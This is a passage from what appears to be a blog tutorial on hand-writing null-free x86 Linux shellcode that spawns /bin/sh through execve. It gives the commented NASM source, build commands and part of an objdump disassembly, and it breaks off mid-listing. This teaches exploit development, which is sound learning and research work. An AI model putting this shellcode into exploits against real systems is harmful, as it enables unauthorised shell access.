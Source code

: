 With that all done here is the final assembly

{% highlight nasm %}

global _start
section .text
_start:
  xor  eax, eax	  ; zero out eax
  push eax        ; push NULL onto stack to termins //bin/sh
  push 0x68732f6e ; push //bin/sh in reverse onto the stack
                  ; (extra / is to make data multiple of 4)
  push 0x69622f2f ; see above
  mov  ebx, esp   ; move address of //bin/sh into EBX (execve's 1st parameter)
  push eax        ; this serves two purposes 1, to use for EDX (we will pass no
                  ; environment to the shell and also as part of the array of
                  ; args that we will pass to as the 2nd arg of execve
  mov  edx, esp	  ; see above
  push ebx        ; ESP now points to and array of args [address of //bin/sh, 0x00]
                  ; these will act as the args to //bin/sh
  mov ecx, esp	  ; setup the 3rd argument
  mov al, 11      ; set the EAX register to the execve sys call number
                  ; using al to remove any null bytes
  int 0x80        ; make the call
{% endhighlight %}

To recap the few tricks we used
1. Used xor to create a NULL without having a null in the code
2. Added the extra / to the /bin/sh string to make pushing the data easier and
   with less instructions
3. Reused data we already had on the stack to create the arguments array for the
   execve call
4. Used the 8 bit version (al) of the EAX register to avoid NULL bytes in the
   generated code

Save the above code to execve.nasm, compile, link and run
```
  $ nasm -f elf32 -o execve.o execve.nasm
  $ ld -o execve execve.o
  $ ./execve
  $
```
If you are running bash you will notice now that your prompt has changed,
congrats your syscall worked!!

# Converting to shellcode
So how do we go about converting this assembled object file into a shellcode
string you see in exploits? There is a little tool called objdump which happens
to have a -d flag and this flag dissasembles object files, lets see
```
  $ objdump -d execve.o

  execve.o:     file format elf32-i386


  Disassembly of section .text:

  00000000 <_start>:
     0:	31 c0                	xor    %eax,%eax
     2:	50                   	push   %eax
     3:	68 6e 2f 73 68       	push   $0x68732f6e
     8:	68 2f 2f 62 69       	push   $0x69622f2f
     d:	89 e3                	mov    %esp,%ebx
     f:	50                   	push   %eax
    10:	89 e2                	mov    %esp,%edx
    12:	53                   	push   %ebx
```